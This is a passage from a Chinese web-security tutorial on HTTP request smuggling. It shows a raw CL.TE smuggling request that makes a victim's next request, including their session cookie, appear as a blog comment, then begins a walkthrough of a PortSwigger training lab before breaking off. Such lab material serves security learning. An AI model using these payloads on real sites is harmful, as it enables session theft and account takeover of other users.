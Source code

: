 此时我们可以发送一个内容长度过长的请求并且注释参数位于请求的末尾

```plain
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

走私请求的 Content-Length 头部表示主体将有 400 个字节长，但是我们只发送了 144 个字节，在这种情况下，后端服务器将在发出响应之前等待剩余的 256 个字节，如果响应不够快，则会发出超时，因此当另一个请求通过相同的连接发送到后端服务器时，前 256 个字节会被有效地附加到走私的请求中，从而得到如下响应

```plain
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```

由于受害者请求的开始包含在 comment 参数中，这将作为评论发布在博客上，随后便能够通过访问相关的帖子来阅读它，为了捕获更多的受害者请求，您只需要相应地增加被走私请求的 Content-Length 头的值，不过需要请注意的是这将涉及一定量的试错，如果您遇到超时，这可能意味着您指定的内容长度大于受害者请求的实际长度，在这种情况下只需降低该值，直到攻击再次奏效，下面我们通过一个靶场示例进行演示  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码，为了解决这个问题，你需要将一个请求偷偷发送到后端服务器，使下一个用户的请求存储在应用程序中，然后检索下一个用户的请求并使用受害用户的 cookies 来访问他们的帐户  
绕过演示：  
Step 1：首先访问上面的靶场地址并点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-03c30c31c0ec8d5193756572af849006.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160300-83a13840-aa0e-1.png)  
Step 2：随意点击一个 blog 并进行评论操作  
[![](assets/1704418275-0cc07486d8cd7f5ef60607af302e1924.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160315-8c7f36b0-aa0e-1.png)  
确定评论有效

[![](assets/1704418275-0968d5b340c876a2fa7cbafba2478632.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160331-9610acd6-aa0e-1.png)
